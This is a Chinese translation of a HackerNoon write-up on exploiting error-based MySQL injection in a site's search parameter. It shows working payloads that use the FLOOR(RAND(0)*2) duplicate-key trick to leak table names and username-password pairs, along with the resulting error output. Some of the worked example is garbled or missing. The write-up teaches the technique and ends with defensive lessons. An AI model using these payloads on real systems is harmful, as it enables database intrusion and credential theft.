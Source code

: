 # 利用数据库错误泄漏用户表信息(书面)

> 原文：<https://medium.com/hackernoon/exploit-database-error-to-leak-users-table-informations-writeup-be62b3c86968>

大家好

我不太在网上发表文章，因为大多数工作都是在 NDA 的指导下私下完成的，但这次我决定发表这篇文章(在网站所有者同意后匿名)，因为太多的开发人员坚持认为你不能利用复杂的[SQL](https://hackernoon.com/tagged/sql)，或非结果 SQL(例如:count(*) sql)。

首先，我接到一个朋友的电话，告诉我一个黑客联系了他们，并告诉他们，他在他们的网站上发现了 sql 注入，并表示他打算勒索他们。

我打开网站，试着用参数来检查，几分钟后我在他们的搜索页面发现了一个错误。
搜索页面 make ajax 请求当你过滤结果到页面时，term 参数是不过滤的那个。

`/?FilterThemes?tags[]=free&term='`

它生成一个带有完整 sql 转储的[数据库](https://hackernoon.com/tagged/database)错误页面(调试模式:)。

```
ERROR 1064
You have an error in your SQL syntax; check the manual that corresponds to your MYSQL server version for the right syntax to use near '',themes.tag_title) != 0' at line 1SELECT COUNT(*) FROM (`themes`) JOIN `authors` on `authors`.`id` = `themes`.`author` FIND_IN_SET(''',themes.tag_title) != 0 or `themes`.`title` like '%'%' or `themes`.`desc` like '%'%' AND match (themes.tag_title) against ('free' in boolean mode) order by `themes`.`id` desc limit 12
```

太棒了，但是等等…

该参数首先传递给计数查询，然后再传递给聚合查询..因此，我们的有效负载必须通过这两个查询，并用 union 执行它..

或者…

我记得我们用它来开发盲 SQL 注入的不寻常的方法，这种方法不会对浏览器产生任何结果——这种方法只有在显示错误时才能实现，这比我们在这里所做的还要好，对吧！

**概念验证**

让我们更改 poc 的有效负载

`/?FilterThemes?tags[]=free&term=d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='`

答对了:)

```
ERROR 1062 
Duplicate entry 'hello1world' for key 'group_key'SELECT COUNT(*) FROM (`themes`) JOIN `authors` on `authors`.`id` = `themes`.`author` FIND_IN_SET('d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='',themes.tag_title) != 0 or `themes`.`title` like '%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='%' or `themes`.`desc` like '%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='%' AND match (themes.tag_title) against ('free' in boolean mode) order by `themes`.`id` desc limit 12
```

注意到了吗:)，表情`CONCAT('hello',FLOOR(RAND(0)*2),'world')`已经求值显示了:)

在我们结束之前，让我解释一下 sql 查询及其工作原理。

有一些关于 MySQL 的信息你需要知道。

1.  当 mysql 试图运行包含多个子查询的 sql 时，它首先评估子查询，然后评估父查询
2.  使用 group by 时需要一个**唯一键**。

为了了解更多，让我们在我们的终端上尝试一些查询。

`Select count(*) from INFORMATION_SCHEMA.CHARACTER_SETS;`

Normal count sql 计算信息方案数据库(mysql 中的默认数据库)中的记录数。现在让我们稍微玩一下这个 sql。

`select count(*), version() x from INFORMATION_SCHEMA.CHARACTER_SETS group by x`

同样没什么特别的，我们添加了 version()(函数检索 mysql 版本)并将其命名为 x，然后我们按它分组。

```
+----------+----------------------------------------+
| count(*) | x                                      |
+----------+----------------------------------------+
|       40 | 10.2.3-MariaDB-10.2.3+maria~xenial-log |
+----------+----------------------------------------+
```

*   *我在我的本地机器上使用 maria db，它是 mysql 的一个分支，但是经过了很多优化*

好吧，让我们积极一点

`SELECT count(*), CONCAT(version(),floor(rand(0) *2)) x from INFORMATION_SCHEMA.CHARACTER_SETS group by x;`

我们添加了一个小变化 `( floor(rand(0) * 2) )` ,如果您运行这个 sql，您将得到

`ERROR 1062 (23000): Duplicate entry '10.2.3-MariaDB-10.2.3+maria~xenial-log1' for key 'group_key'`

你还记得我之前告诉你的关于 Mysql 要求组密钥唯一的信息吗:)。

`( floor(rand(0) * 2) )`产生一个序列 **0，1，1，0，1，1**T16`version()`将总是相同的。

因此 count(*)的第一次迭代将是

`CONCAT(version(),floor(rand(0) *2))`
=


然后

`CONCAT(version(),floor(rand(0) *2))`
=


然后

`CONCAT(version(),floor(rand(0) *2))`
=
`10.2.3-MariaDB-10.2.3+maria~xenial-log**1**` = >这里就重复了；)然后我们得到了错误

`Duplicate entry '10.2.3-MariaDB-10.2.3+maria~xenial-log1' for key 'group_key'`

懂了吗:)

让我们回到我们的剥削。

我们发现了错误，我们发现了漏洞..现在我们需要一些有价值的信息。

从 INFORMATION_SCHEME.tables 开始，我们可以获取表名。

使用简单的脚本，我们可以通过从 db 错误中提取结果来获取所有的表名，只需向脚本提供有效负载。

`%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT((select TABLE_NAME from INFORMATION_SCHEMA.TABLES LIMIT 1,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '%'='%`

现在我们知道了用户表。使用新的有效负载修改脚本以获取用户数据。

`%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT((select concat(username,'-',password) from users LIMIT 1,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '%'='%`

就是这样。

吸取的教训

1.  在生产中始终关闭错误。
2.  不要低估任何漏洞，99%的漏洞都可以被利用。

注意安全。

> [黑客中午](http://bit.ly/Hackernoon)是黑客如何开始他们的下午。我们是 [@AMI](http://bit.ly/atAMIatAMI) 家庭的一员。我们现在[接受投稿](http://bit.ly/hackernoonsubmission)，并乐意[讨论广告&赞助](mailto:partners@amipublications.com)机会。
> 
> 要了解更多信息，请[阅读我们的“关于”页面](https://goo.gl/4ofytp)、[在脸书上点赞/给我们发消息](http://bit.ly/HackernoonFB)，或者简单地说， [tweet/DM @HackerNoon。](https://goo.gl/k7XYbx)
> 
> 如果你喜欢这个故事，我们推荐你阅读我们的[最新科技故事](http://bit.ly/hackernoonlatestt)和[趋势科技故事](https://hackernoon.com/trending)。直到下一次，不要把世界的现实想当然！